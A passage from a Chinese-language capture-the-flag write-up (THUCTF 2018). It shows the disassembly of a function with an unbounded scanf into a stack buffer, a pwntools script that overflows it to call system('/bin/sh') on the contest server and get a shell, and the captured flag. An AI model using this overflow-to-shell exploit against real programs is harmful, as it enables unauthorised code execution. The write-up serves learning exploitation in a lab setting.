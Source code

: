 有问题的还是 `vul`，汇编代码都和 pwn1 一样
```C
.text:00000000004006F2 ; Attributes: bp-based frame
.text:00000000004006F2
.text:00000000004006F2                 public vul
.text:00000000004006F2 vul             proc near               ; CODE XREF: main+13↓p
.text:00000000004006F2
.text:00000000004006F2 var_2000        = byte ptr -2000h
.text:00000000004006F2
.text:00000000004006F2 ; __unwind {
.text:00000000004006F2                 push    rbp
.text:00000000004006F3                 mov     rbp, rsp
.text:00000000004006F6                 sub     rsp, 2000h
.text:00000000004006FD                 lea     rax, [rbp+var_2000]
.text:0000000000400704                 mov     rsi, rax
.text:0000000000400707                 mov     edi, offset aS  ; "%s"
.text:000000000040070C                 mov     eax, 0
.text:0000000000400711                 call    ___isoc99_scanf
.text:0000000000400716                 mov     rdi, rsp
.text:0000000000400719                 nop
.text:000000000040071A                 leave
.text:000000000040071B                 retn
.text:000000000040071B ; } // starts at 4006F2
.text:000000000040071B vul             endp
.text:000000000040071B
```

因此 pwn 的代码也和上一题一样

```Python
from pwn import *

# p = process('./stackoverflow64_withnoleak')
p = remote('pwn.thuctf2018.game.redbud.info', 20002)
e = ELF('./stackoverflow64_withnoleak')

s = '/bin/sh' + '\0' * 0x3000
s = s[:0x2008] + p64(e.symbols['system'])

# context.terminal = ['tmux', 'splitw', '-v']
# gdb.attach(proc.pidof(p)[0])

print(p.recv(timeout=1.))
p.writeline(s)
p.interactive()
```

```sh
$ cat /home/ctf_puck/flag
THUCTF{EnjoY_your_GAme_and_pwn_FOR_life_1on9!}
```

## wdSimpleSQLv1-1
